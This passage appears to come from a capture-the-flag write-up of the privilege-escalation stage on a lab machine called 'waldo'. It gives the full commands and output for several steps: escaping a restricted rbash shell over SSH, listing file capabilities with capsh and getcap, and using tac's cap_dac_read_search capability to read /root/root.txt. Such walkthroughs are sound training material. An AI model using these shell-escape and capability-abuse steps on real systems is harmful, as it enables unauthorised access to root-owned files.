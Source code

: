#### 3.1. SSH from `nobody` to `monitor` (restricted shell)
```
waldo:~/.ssh$ ssh -i .monitor monitor@localhost
monitor@waldo:~$ cd
-rbash: cd: restricted
```


#### 3.2. SSH from `nobody` to `monitor` (UNrestricted shell - no `rbash`)
```
waldo:~/.ssh$ ssh -i .monitor monitor@localhost -t "bash --noprofile"
monitor@waldo:~$ export PATH=/bin:/usr/bin:/sbin:$PATH
```


#### 3.3. Show capabilities for current user
```
monitor@waldo:~$ capsh --print | head -n1
Current: = cap_dac_read_search+i
```

```
monitor@waldo:~$ cat /etc/security/capability.conf | grep -v '#' | awk 'NF'
cap_dac_read_search monitor
none *
```

Searching for executables that have `cap_dac_read_search+ei` capabilities to read root-owned files:
```
monitor@waldo:~$ /sbin/getcap -r / 2>/dev/null
/usr/bin/tac = cap_dac_read_search+ei
/home/monitor/app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei
```

#### 3.4. Root flag
```
monitor@waldo:/var/log$ /usr/bin/tac /root/root.txt
8fb67c84418be6e45fbd348fd4584f6c
```
